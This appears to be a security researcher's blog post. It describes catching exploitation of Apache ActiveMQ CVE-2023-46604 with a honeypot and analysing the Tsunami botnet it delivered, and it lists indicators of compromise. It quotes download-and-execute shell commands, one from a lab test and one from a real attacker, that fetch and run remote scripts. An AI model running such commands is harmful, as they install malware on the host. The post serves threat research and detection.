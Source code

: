 ```yaml
---
layout: post
title: Tsunami Botnet was caught using ActiveMQ Honeypot
date: '2023-12-10 12:30:00 +0300'


categories: ['Caught by activemq-honeypot']
tags: ["botnet", "activemq-honeypot", "linux"]
---
```

## Executive Summary
In October 2023 Remote Code Execution vulnerability [CVE-2023-46604](https://www.cve.org/CVERecord?id=CVE-2023-46604) was published. This vulnerability in Apache ActiveMQ Legacy OpenWire Module got 10.0 Base Score by CNA. After that public exploits were created:
- [https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ)
- [https://github.com/sule01u/CVE-2023-46604](https://github.com/sule01u/CVE-2023-46604)
- many other forks and similar exploits

These exploits contain real payloads which being used in the wild.

For example another similar attack [reported by FortiGuard Labs, CVE-2023-46604 exploitation and GoTitan Botnet spreading](https://www.fortinet.com/blog/threat-research/gotitan-botnet-exploitation-on-apache-activemq). 

After that fact I created fake vulnerable Apache ActiveMQ service which called [activemq-honeypot](https://github.com/infokek/activemq-honeypot).
This service emulates real vulnerable ActiveMQ service and can trigger attacker for exploitation, compromise attacker's attackchain, samples, C2 infrastructure and other helpful for Threat Intelligence things.


## Introduction to CVE-2023-46604
The Java OpenWire protocol marshaller can be vulnerable to Remote Code Execution. This vulnerability may allow a remote attacker with network access to either a Java-based OpenWire broker or client to run arbitrary shell commands. In fact this vulnerability used for malware Download & Execute attacks. This vulnerability commonly implemented in 2-3 stages. Let's look at this with an example of my testing infrastructure:

**1) Vulnerability exploitation**
![Attack Exploitation](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/attack_example.png)
_Attack exploitation_

Firstly attacker sends specific packet to Apache ActiveMQ service. This packet contains ExceptionResponse with Class `org.springframework.context.support.ClassPathXmlApplicationContext` and Message which contains XML payload url. 
![Exploitation Packet](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/exploitation_packet_example.png)
_ClassPathXmlApplicationContext message_

**2) XML payload downloading**

Secondly vulnerable service loads XML payload which commonly contains RCE command.
![XML Payload Loading](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/xml_loading_example.png)
_XML payload downloading_

For example here you can see command `curl -s -o test.elf http://172[.]17.0[.]1:8000/test.elf; chmod +x ./test.elf; ./test.elf` that was executed by vulnerable Apache ActiveMQ service.

**3) Malware executable downloading (Download & Execute)**

After succesful attack ActiveMQ service downloads malware executable and executes it. Commonly this is final exploitation step but there can be more different attack steps depending on the case.
![Executable Loading](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/exec_loading_example.png)
_Executable downloading_

This is example of attack scenario in my local testing infrastructure. Let's look at wild attack example.

## Wild Attack Example

[activemq-honeypot](https://github.com/infokek/activemq-honeypot) is rust-written, created by me, fakely vulnerable Apache ActiveMQ service that extracts IoCs and attack chain components from real vulnerability exploitations. You can check repository of this service here: [https://github.com/infokek/activemq-honeypot](https://github.com/infokek/activemq-honeypot)

Firstly I deployed [activemq-honeypot](https://github.com/infokek/activemq-honeypot) on my rented server and caught real attacker at 2023/12/19 19:21 UTC+3.
![Real Attack Logs](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/real_attack_logs.png)
_activemq-honeypot output logs_
Secondly honeypot got attack from [103[.]228.162[.]76](https://www.virustotal.com/gui/ip-address/103.228.162.76/detection) which identified as malicius on VirusTotal.

[activemq-honeypot](https://github.com/infokek/activemq-honeypot) also creates json output with IoCs after succesful exploitation.
![Real Attack Json](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/real_attack_json.png)
_activemq-honeypot output json_

Malicious XML payload was hosted on `hxxp://188[.]166.177[.]88/wp-content/themes/twentynineteen/poc2.xml`. 
![XML payload](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/xml_payload.png)
_Malicious XML payload_
This url also identified as malicius on VirusTotal service. Honeypot also automatically extracted RCE command from XML payload:

```bash -c (wget -O pk.sh  hxxp://161[.]35.219[.]184/.s/1sh || curl -o pk.sh hxxp://161[.]35.219[.]184/.s/3sh || fetch  -o pk.sh hxxp://161[.]35.219[.]184/.s/3sh); chmod +x pk.sh; ./pk.sh; rm -rf pk.sh```

This command downloads from [161[.]35.219[.]184](https://www.virustotal.com/gui/ip-address/161.35.219.184) malicious bash script [09aa65fc9e3b722f01a8ef65e4f5c352](https://www.virustotal.com/gui/file/09aa65fc9e3b722f01a8ef65e4f5c352/detection). 
![sh sample](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/sample_sh.png)
_Malicious bash script_

This malicious script contains `/dev/ttyN` UNIX system's mimicry. ELF32 executable that downloaded by this script [f895104d7e20dc6808c05164103d1357](https://www.virustotal.com/gui/file/f895104d7e20dc6808c05164103d1357/detection) attributed on VirusTotal as Tsunami Botnet.

![Botnet DiE](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/sample_botnet_die.png)
_Tsunami Botnet executable in Detect It Easy_

This sample packed with custom packer and detected by [Detect It Easy](https://github.com/horsicq/Detect-It-Easy) as UPX but can't be unpacked using standart UPX tool.

Moreover packed sample contains unknown specific string `hitteru koto dake`. This mark can be used in static detections in future.

![Botnet String](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/sample_botnet_string.png)
_Tsunami Botnet string in IDA_


I analysed this script on Triage Sandbox: [https://tria.ge/231209-wyxalsbdh4/](https://tria.ge/231209-wyxalsbdh4/) to check malicious behaviour.
This sample resolved C&C domain [p[.]deutschland-zahlung[.]eu](https://www.virustotal.com/gui/domain/p.deutschland-zahlung.eu) and contacted with C&C IP address [138[.]197.78[.]18](https://www.virustotal.com/gui/ip-address/138.197.78.18).
![Tsunami Botnet Traffic](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/tsunami_botnet_traffic2.png)
_Tsunami Botnet DNS resolve_

As we can see this botnet contains Telnet module which was used for C&C communications.

![Tsunami Botnet Traffic](../../assets/2023-12-10-tsunami-botnet-activemq-honeypot/tsunami_botnet_traffic.png)
_Tsunami Botnet C&C communication_

## Conclusion
CVE-2023-46604 seems to be popular vulnerability which used for Download & Execute different malware samples. In this case I caught Tsunami Botnet and researched it. In fact [activemq-honeypot](https://github.com/infokek/activemq-honeypot) can be used for catching more interesting attack chains and attack scenarious. Tsunami Botnet also detected by [Emerging Threats open ruleset](https://rules.emergingthreats.net/open/), Telnet C&C communations can be detected using signature `ET TROJAN ELF/Muhstik Botnet CnC Activity`, sid 2034743.


## Indicators Of Compromise
- `103[.]228.162[.]76` - attacker's host
- `188[.]166.177[.]88` - xml payload stager
- `161[.]35.219[.]184` - bash script stager
- `138[.]197.78[.]18` - botnet telnet module C&C
- `p[.]deutschland-zahlung[.]eu` - botnet telnet module C&C
- `d3fd8d78dbdde8260ee3e0a868f9d5af5b6fd496b7b085ef54633a7287b904bf` - malicious bash script C&C
- `86947b00a3d61b82b6f752876404953ff3c39952f2b261988baf63fbbbd6d6ae` - Tsunami botnet x32 executable
